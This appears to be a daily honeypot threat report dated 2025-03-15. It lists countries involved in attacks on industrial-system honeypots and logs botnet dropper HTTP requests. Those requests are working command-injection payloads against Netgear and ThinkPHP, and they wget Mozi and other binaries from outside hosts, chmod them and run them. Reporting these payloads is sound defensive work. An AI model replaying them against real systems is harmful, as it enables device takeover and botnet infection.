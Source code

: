 ```yaml
---
title: "Report: 2025-03-15 "
date: 2025-03-15
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-15
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| DE               | Germany            |
| US               | Dubai              |
| RU               |                    |
| CZ               |                    |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                       |
|:----------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 223.149.177.88  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                     |
| 117.200.113.221 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://117.200.113.221:33397/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                |
| 123.226.246.140 | GET /shell?cd+/tmp;rm+-rf+*;wget+ http://157.245.200.182/Binarys/Nyx4r.arm;chmod+777+/tmp/Nyx4r.arm;sh+/tmp/Nyx4r.arm arm4.jaws HTTP/1.1                                                                                      |
| 114.228.247.206 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://114.228.247.206:54718/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                |
| 140.207.30.37   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1 |
| 27.128.156.189  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1 |
| 61.130.11.82    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1 |
| 103.98.36.190   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                         |
| 180.153.27.22   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1 |
| 186.30.92.187   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1 |
| 58.58.30.134    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1 |
| 78.188.134.236  | GET /shell?cd+/tmp;rm+-rf+*;wget+ http://157.245.200.182/Binarys/Nyx4r.arm;chmod+777+/tmp/Nyx4r.arm;sh+/tmp/Nyx4r.arm arm4.jaws HTTP/1.1                                                                                      |
